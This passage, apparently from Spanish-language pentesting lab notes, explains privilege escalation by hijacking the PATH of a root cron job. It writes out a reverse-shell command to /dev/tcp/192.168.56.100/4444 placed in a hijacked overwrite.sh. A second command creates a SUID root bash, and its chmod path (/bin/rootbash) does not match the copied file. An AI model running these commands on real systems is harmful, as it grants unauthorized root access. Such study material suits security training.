 Y ahora con un escuchador seriamos root.

---
## Path Hijacking con Cronjobs

Otra opcion, como se llama de manera relativa, podriamos emplear un path hijacking para que se ejecute un overwrite.sh controlado por nosotros.

La primera carpeta del PATH es /home/user, y podemos escribir en el.

Con una reverseshell:

``` bash
cd /home/user
echo "sh -i >& /dev/tcp/192.168.56.100/4444 0>&1" > overwrite.sh
```

Creando un rootbash:

``` bash
cd /home/user
echo "cp /bin/bash /tmp/rootbash; chmod +xs /bin/rootbash" > overwrite.sh
```